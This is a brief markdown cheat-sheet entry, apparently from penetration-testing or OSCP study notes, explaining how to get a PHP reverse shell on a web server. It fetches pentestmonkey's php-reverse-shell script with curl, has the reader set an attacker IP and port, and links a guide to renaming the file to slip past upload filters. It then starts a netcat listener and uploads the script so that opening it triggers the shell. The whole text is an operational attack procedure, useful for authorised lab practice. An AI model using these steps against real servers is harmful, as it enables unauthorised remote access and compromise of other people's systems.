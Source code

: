 # PHP reverse shell

First, download the script:

    curl -LO https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Change `ip` and `port` in the script (use `ip addr` for ip). Also probably rename, see [Bypass File Upload Filtering](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html).

Next, start `nc`:

    nc -lvnp <port>

Finally, upload the script to the server, and open the newly created link.